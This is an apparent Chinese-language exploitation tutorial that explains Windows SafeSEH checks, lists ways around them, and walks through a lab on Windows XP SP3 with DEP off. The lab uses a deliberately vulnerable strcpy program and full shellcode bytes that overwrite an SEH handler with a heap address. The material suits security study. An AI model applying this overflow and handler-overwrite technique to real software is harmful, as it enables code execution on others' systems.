

## SafeSEH 对异常处理的保护原理

​	在`Windows XP SP2` 及后续的操作系统中, 微软引入了`SEH`校验机制`SafeSEH`.`SafeSEH`的原理如下: 在程序调用异常处理函数前, 对要调用的异常处理函数进行一系列的有效性校验, 当发现异常处理函数不可靠时将终止异常处理函数的调用.

​	在`VS 2003`及后续的版本中, 链接选项中的`/SafeSEH`选项是默认启用的, 这可以让编译好的程序具备`SafeSEH`功能. 启用该选项后, 编译器在编译程序的时候将程序所有的异常处理函数地址提取出来, 编入一张安全`SEH`表, 并将这张表放到程序的映像里面. 当程序调用异常处理函数的时候会将函数地址与安全`SEH`表进行匹配, 检查调用的异常处理函数是否位于安全`SEH`表中. 在`VS`命令提示行, 执行`dumpbin /loadconfig filename`可以查看程序安全`SEH`表的情况, 如下图所示: 


​	`SafeSEH`机制首先调用了`RtlDispatchException()`函数判断: 异常处理链是否位于当前程序栈中; 异常处理指针是否指向当前程序栈中. 若不通过都将终止异常处理函数的调用. 之后调用`RtlIsValidHandler()`函数, 其伪代码如下:

```
BOOL RtlIsValidHandler( handler )
{
    if (handler is in the loaded image)      // 在加载模块的内存空间内
    {
        if (image has set the IMAGE_DLLCHARACTERISTICS_NO_SEH flag)
            return FALSE;                    // 程序设置了忽略异常处理
        if (image has a SafeSEH table)       // 含有 SafeSEH 表说明程序启用了 SafeSEH
            if (handler found in the table)  // 异常处理函数地址在表中
                return TRUE;
            else
                return FALSE;
        if (image is a .NET assembly with the ILonly flag set)
            return FALSE;                    // 包含 IL 标志的 .NET 中间语言程序
    }

    if (handler is on non-executable page)   // 在不可执行页上
    {
        if (ExecuteDispatchEnable bit set in the process flags)
            return TRUE;                     // DEP 关闭
        else
            raise ACCESS_VIOLATION;          // 访问违例异常
    }

    if (handler is not in an image)          // 在可执行页上，但在加载模块之外
    {
        if (ImageDispatchEnable bit set in the process flags)
            return TRUE;                     // 允许加载模块内存空间外执行
        else
            return FALSE;
    }
    return TRUE;                             // 允许执行异常处理函数
}


```

​	根据上述流程, 运行异常处理函数执行的情况如下: 

* 异常处理函数在加载模块外, `DEP`关闭
* 异常处理函数在加载模块内, 相应模块未启用`SafeSEH`(安全`SEH`表为空)且不是纯`IL`
* 异常处理函数在加载模块内, 相应模块启用`SafeSEH`, 异常处理函数地址包含在安全`SEH`表中

​    因此, 绕过`SafeSEH`机制有如下方法:

* 覆盖函数返回地址. 若攻击对象启用了 `SafeSEH` 但是 没有启用 `GS` 或者存在未受` GS `保护的函数
* 利用虚函数表来绕过 `SafeSEH`
* 将 `shellcode` 部署在堆中以绕过 `SafeSEH`
* 利用未启用 `SafeSEH` 的模块绕过 `SafeSEH`
* `DEP` 关闭时，可以利用加载模块之外的地址作为跳板绕过`SafeSEH`

## 从堆中绕过 SafeSEH

​	 实验环境如下:

|   操作系统   |      `Windows XP SP3`       |
| :----------: | :-------------------------: |
|  **编译器**  |  **`Visual Studio 2008`**   |
| **编译选项** | **`DEP`关闭, 禁用优化选项** |

​	`POC`代码如下, 含义是用`shellcode`在堆中的起始地址覆盖异常处理函数地址, 然后通过除0异常调用异常处理函数: 

```
#include <stdlib.h>
#include <string.h>

char shellcode[] = "\x90...";

void test(char *input)
{
	char str[200];
	strcpy(str, input);
	int zero = 0;
	zero = 1 / zero;
}

void main()
{
	char *buf = (char *)malloc(500);
	strcpy(buf, shellcode);
	test(shellcode);
}
```

​	使用`OllyDbg`运行编译好的程序, 执行到程序中断在完成申请堆中空间的位置, 如下图所示, 寄存器`EAX`中存放着申请空间的首地址, 即地址`003907A8`是`shellcode`的首地址:



​	然后执行到`test`函数的`strcpy`完成后, 填充的`0x90`标识出了字符串的起始地址, 即地址`0x0012FE5C`是溢出字符串的起始地址, 如下图所示:


​	打开`SEH`链视图,  `SEH`异常处理函数指针位于`0x0012FFB0+4`的位置(`0x0012FFB0`为指向下一个`SEH`的链表指针, `0x0012FFB4`才是异常回调函数句柄), 如下图所示:


​	因为 `0x0012FFB4 - 0x0012FE5C = 344字节`, 所以缓冲区起始地址与异常回调函数句柄之间有344字节间隙. 使用的`shellcode`布局为: 168个字节的弹出对话框的机器码; 176字节的填充`\x90`; 4字节使用`003907A8`缓冲区地址填充, 用于更改异常回调函数的句柄. 修改好的`shellcode`如下:

```
char shellcode[]=
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\xA8\x07\x39\x00"//address of shellcode in heap
;
```

​	重新编译程序, 在程序`0x003907A8`位置设置断点, `F9`运行程序到上述断点处中断. 由此可知, 已经成功绕过`SafeSEH`机制转入`shellcode`运行了. 继续运行程序, 执行`shellcode`显示弹窗, 如下图所示:


​	最终, 成功实现了从堆中绕过 `SafeSEH`机制.

